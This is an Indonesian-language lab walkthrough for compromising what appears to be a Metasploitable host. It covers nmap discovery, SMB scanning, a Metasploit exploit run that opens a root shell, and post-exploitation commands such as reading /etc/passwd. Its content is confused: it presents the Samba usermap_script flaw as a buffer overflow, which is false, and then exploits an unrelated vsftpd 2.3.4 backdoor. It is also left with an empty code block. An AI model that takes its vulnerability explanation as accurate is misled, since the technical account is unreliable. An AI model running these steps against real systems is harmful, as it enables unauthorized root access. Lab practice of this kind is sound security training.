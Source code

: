 # Introduction

**Samba** adalah seperangkat program sumber terbuka (_open source_) yang memungkinkan sistem Linux/Unix berinteraksi dengan jaringan yang **berbasis pada protokol SMB/CIFS** (_Server Message Block/Common Internet File System_), yang merupakan protokol standar untuk berbagi file dan printer di lingkungan Windows.

Secara sederhana, Samba bertindak sebagai "jembatan" atau "penerjemah" yang memungkinkan komputer Linux untuk berbagi file dan printer dengan komputer Windows seolah-olah komputer Linux tersebut adalah server Windows asli.

Kerentanan Samba _usermap_script_ adalah cacat _buffer overflow_ yang memungkinkan penyerang untuk mengeksekusi perintah dengan hak akses root tanpa otentikasi. Ini adalah salah satu kerentanan yang paling dicari karena dampaknya yang parah.

Apa itu **_Buffer Overflow_**? Ini adalah kondisi di mana sebuah program mencoba menulis data lebih banyak ke dalam suatu area memori (_buffer_) daripada yang bisa ditampung. Akibatnya, data tersebut meluber ke area memori di sekitarnya, yang bisa dimanfaatkan oleh penyerang untuk menyuntikkan dan menjalankan kode berbahaya mereka sendiri.

**1. _Reconnaissence_**

- Analisis jaringan yang sedang dipakai untuk mengetahui IP yang digunakan

```
ifconfig
```
- Memindai seluruh jaringan internal yang saling terhubung untuk mencari target
```
nmap -sn <ip_range>

Ex. nmap -sn 192.168.1.0/24   //scanning the whole connected divices
```
**2. _Scanning and Enumeration_**

Memindai port samba, yaitu 445 (SMB over TCP) dan 139 (NetBIOS-SSN) pada IP target
```
nmap -p 445,139 --script=smb-os-discovery <ip_metasploitable>
```

```

```
**3. _Gaining Access (Exploitation)_**
- Menjalankan Metasploit Framework
```
msfconsole
```
- Mencari modul eksploitasi yang sesuai dengan kerentanan yang ditemukan
```
search vsftpd 2.3.4
```

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

```
- Memilih dan mengatur eksploitasi
```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <ip_metasploitable>
set LHOST <ip_kali_linux>
```
- Cek _requirement_, pastikan tidak ada yang kurang atau terlewat
```
show options
```
- Jika sudah lengkap, jalankan serangan
```
exploit
```

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 192.168.22.64:21 - The port used by the backdoor bind listener is already open
[+] 192.168.22.64:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.22.63:33787 -> 192.168.22.64:6200) at 2025-08-21 07:03:24 -0400

```
**4. _Maintaining accsess dan Post exploitation_**
- Verifikasi user atau akses root
```
whoami
```
- Eksplorasi sistem
```
ls -l      //melihat list file dan direktory
```
```
uname -a   //melihat versi kernel dan informasi sistem
```
```
cat /etc/passwd  //melihat daftar user
```
